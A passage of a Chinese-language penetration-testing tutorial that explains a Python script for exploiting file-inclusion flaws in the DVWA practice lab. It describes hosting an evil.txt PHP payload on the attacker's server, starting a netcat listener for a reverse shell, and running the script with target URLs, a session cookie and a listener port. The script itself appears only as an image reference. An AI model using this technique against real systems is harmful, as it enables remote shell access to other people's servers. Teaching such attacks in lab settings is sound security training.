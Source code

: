 ![](img/ca58e9a5-7ce5-4b93-b1ad-b94a472b1cf0.png)

在第 115 行中，我们正在调用一个进程，该进程将导致浏览器使用该进程的`start()`方法（在第 116 行下）向有漏洞的页面发出有效负载请求。但在实际访问该漏洞之前，我们需要设置一个 netcat 侦听器。第 119 行设置了一个 Netcat 侦听器，我们引入了 5 秒的时间延迟，从处理方法`send_exp()`的定义中可以看出，这给了 Netcat 启动的时间。一旦启动，有效载荷通过第 61 行下的`send_exp()`方法交付。如果一切顺利，我们的听者就会得到答案。

第 107-113 行处理漏洞的 RFI 部分。为了利用 RFI，我们需要在攻击者的机器上创建一个邪恶的文件`evil.txt`，该文件将提供 PHP 负载。一旦创建，我们需要将其放置在`/var/www/html/evil.txt`中。然后，我们需要启动 Apache 服务器并将有效负载交付 URL 更新为 RFI 的地址。最后，使用`send_exp()`方法，我们交付有效负载，然后启动 netcat 侦听器。

前面的代码适用于 LFI 和 RFI 漏洞。给定的代码按以下顺序获取用户参数：

```
python LFI_RFI.py <target ip> <target Base/Login URL> <target Vulnetable URL> <Target Vul parameter> <Login required (1/0)> <Login cookies> <Attacker IP> <Attacker Lister PORT> <Add params required (1/0)> <add_param_name1=add_param_value1,add_param_name2=add_param_value2>  | <LFI (0/1)>
```

# 执行 LFI 攻击

要执行和利用 LFI 漏洞，我们将向脚本传递以下参数：

```
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444
```

前面的命令将生成输出，如以下屏幕截图所示：
